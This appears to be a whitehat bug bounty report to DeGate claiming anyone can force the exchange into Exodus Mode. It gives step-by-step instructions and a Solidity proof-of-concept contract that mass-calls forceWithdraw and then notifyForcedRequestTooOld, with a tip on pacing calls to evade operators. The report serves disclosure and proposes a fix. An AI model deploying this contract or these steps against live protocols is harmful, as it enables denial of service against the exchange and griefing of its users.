 # Exodus Mode Force

Submitted 18 days ago by @lordagnew (Whitehat) for BOOSTED: DeGate Bug Bounty

Report ID: #26509

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

# Impacts
- Force DeGate into Exodus Mode
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Details

Description

Bug Description

To Force DeGate into Exodus Mode

First, Parse Calldata of all submitBlock transactions in the DeGate smart contract.

Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force.

Start creating accounts over time to make enough to be able to cause Exodus Mode. (I know it is a lot of accounts to make but not hard at all)

After you force Degate into Exodus Mode you can start Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Impact
This is an extremely bad impact. Would show the project in a terrible light because the entire project would shut down and would cause big problems for people and anyone who is invested in it. Anyone who is a competitor could do this to make there own project look better/safer.

# Risk Breakdown
Difficulty to Exploit: Easy just would take some time but still easy

# Proof of concept
First thing you would need to do is make enough accounts with wallets that have a very small amount of money in them because you will get the money back so no lose in revenue at all for this part. Yes, you would need to make a TON of accounts but that is why you would use a program to create these accounts which is something that already exists. Secondly, when all of these accounts are ready, you Parse Calldata of all submitBlock transactions in the DeGate smart contract and you do this so you can look for other accounts that might be able to help you with this because ANYONE can call this for any account which is a problem. Next, Write a script to automate the calling of notifyForcedRequestTooOld for accounts that meet the specific criteria to find available ones to help and make it even easier to force. I know the price of .01 eth but I can promise you that if a competitive project sees profit by taking out Degate you do not want that option available.

Here is the code for this 
```
// SPDX-License-Identifier: MIT pragma solidity >=0.6.12 <0.9.0;

interface IExchangeV3 { function forceWithdraw(address from, address token, uint32 accountID) external; function notifyForcedRequestTooOld(uint32 accountID, address token) external; }

contract ExodusModeSimulator { IExchangeV3 public exchangeV3; address public owner;

// 
event ForceWithdrawInitiated(address indexed sender, address indexed token, uint32 indexed accountID);
event ExodusModeTriggered(uint32 indexed accountID, address indexed token);

// Mapping to store withdrawal timestamps
mapping(uint32 => mapping(address => uint)) public withdrawalTimestamps;

// MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE is set to 15 days in seconds
uint constant MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE = 15 * 24 * 60 * 60;

constructor(address _exchangeV3Address) {
    owner = msg.sender;
    exchangeV3 = IExchangeV3(_exchangeV3Address);
}

modifier onlyOwner() {
    require(msg.sender == owner, "Only the owner can call this function");
    _;
}

function simulateForcedWithdrawals(address[] calldata tokens, uint32[] calldata accountIDs) external onlyOwner {
    require(tokens.length == accountIDs.length, "Input arrays must be the same length");
    
    for (uint i = 0; i < tokens.length; i++) {
        exchangeV3.forceWithdraw(msg.sender, tokens[i], accountIDs[i]);
        withdrawalTimestamps[accountIDs[i]][tokens[i]] = block.timestamp;
        emit ForceWithdrawInitiated(msg.sender, tokens[i], accountIDs[i]);
    }
}

function simulateMassForcedWithdrawals(address token, uint32 startAccountID, uint32 numberOfAccounts) external onlyOwner {
    for (uint32 i = 0; i < numberOfAccounts; i++) {
        uint32 accountID = startAccountID + i;
        exchangeV3.forceWithdraw(msg.sender, token, accountID);
        withdrawalTimestamps[accountID][token] = block.timestamp;
        emit ForceWithdrawInitiated(msg.sender, token, accountID);
    }
}

function triggerExodusMode(uint32 accountID, address token) external onlyOwner {
    uint timestamp = withdrawalTimestamps[accountID][token];
    require(timestamp != 0, "No withdrawal request for this account and token");
    require(block.timestamp >= timestamp + MAX_AGE_FORCED_REQUEST_UNTIL_WITHDRAW_MODE, "Withdrawal request not old enough");

    exchangeV3.notifyForcedRequestTooOld(accountID, token);
    emit ExodusModeTriggered(accountID, token);
}
}
```

To help understand this and how it will work this will make it VERY easy to push accounts through and you can push them through a lot at a time or you can slowly push the accounts out so that it is not caught by the operators. Also, this contract puts the 15 days into account. This is a very bad thing and I really do recommend fixing this or at least putting something in the contract so ONLY the owner can make a call for any account and not let that be open to anyone because that would immediately fix it.

Lastly, When Exodus mode is forced every account will be able to have all there money taken out of the contract and this would cause serious Griefing for everyone involved because they would all have to repay the gas fees for putting it back into the contract and a huge loss of respect for the project.
